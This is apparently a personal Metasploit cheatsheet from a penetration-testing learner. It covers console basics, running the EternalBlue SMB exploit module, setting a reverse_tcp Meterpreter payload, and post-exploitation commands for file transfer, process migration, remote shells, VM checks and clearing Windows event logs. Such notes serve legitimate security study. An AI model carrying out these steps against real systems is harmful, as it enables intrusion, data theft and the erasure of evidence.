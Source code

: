 # Metasploit
*Personal cheatsheet*<br/> <br/>
## Basic commands
```help``` or ```?```<br/>
```search```&emsp;Search modules<br/>
```use```&emsp;Select a module<br/>
```info```&emsp;Display info about a specific module<br/>
```options```&emsp;List options you can set<br/>
```advanced```&emsp;Display advanced options for a specific module<br/>
```show```&emsp;Show options in a specific category<br/>
```connect <host> <port> -z``` to try to connect to a remote host, then return. To test its reachability<br/>
```spool <filepath>``` to save both commands and screen output of metasploit
## First steps w/ Metasploit
### ```Eternalblue```
```search eternalblue```<br/>
```use exploit/windows/smb/ms17_010_eternalblue``` to select the module<br/>
```show options```<br/>
```set``` to set a value to a module options<br/>
&nbsp;&nbsp;&nbsp;&nbsp;*ex:* ```set SMBPass username```<br/>
```setg``` to set a global value<br/>
```unset``` to change the value of a var. to "null"
```get``` to view tha value of single variables<br/>
```show payloads``` to list compatible payloads<br/>
```set PAYLOAD <index>``` to select the desired payload, ```index``` *being the id of the playload from* ```show payloads```<br/>
```exploit``` to run the exploit once you've configured all the desired options<br/>
```sessions``` to list all active sessions<br/>
```session -i <index>``` to go into interactive mode with a session, ```index``` *being the id of the session from* ```sessions```<br/>
### ```Meterpreter```
Once you've run an exploit, ideally it'll give you either a regular command shell or a meterpreter shell.<br/>
```meterpreter``` allows you to do various things to **interact w/ the machine**, cf. [Offensive Security](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) for the complete list of cmds.<br/>
```download <filepath>``` to dl a file from the remote machine. *NB: you'll need to use **double slashes** for Windows environment*<br/>
```upload <local_file_location> <remote_file_location>``` to upload a file to the machine. *Just like download, you'll need to use **double slashes***<br/>
```ps``` to list **running process**.<br/>
```migrate [<new_pid>]``` is used to **"migrate" from the current process to another** process, *it's possible to specify the PID you'll like to migrate to by specifying it ```<new_pid```*<br/>
```ls``` list files in the current directory.<br/>
```execute``` to execute a command on the remote host.<br/>
```shell``` will start an interactive shell on the remote host.<br/>
```search``` to find files on the remote host.<br/>
```cat``` to display the content of a file.<br/>
```background``` will put your meterpreter shell in background, *to return to the meterpreter shell* ```session -i <session_id>```<br/>
```clearev``` will clear the **Application, System, and Security logs** on a **Windows system**.<br/>
```getuid``` will return the user we're currently connected as

<br/>
<br/>

## Usefulls modules / payloads
```set PAYLOAD windows/meterpreter/reverse_tcp``` very common reverse shell
```run post/windows/gather/checkvm``` to check if the remote host is running on a VM or not

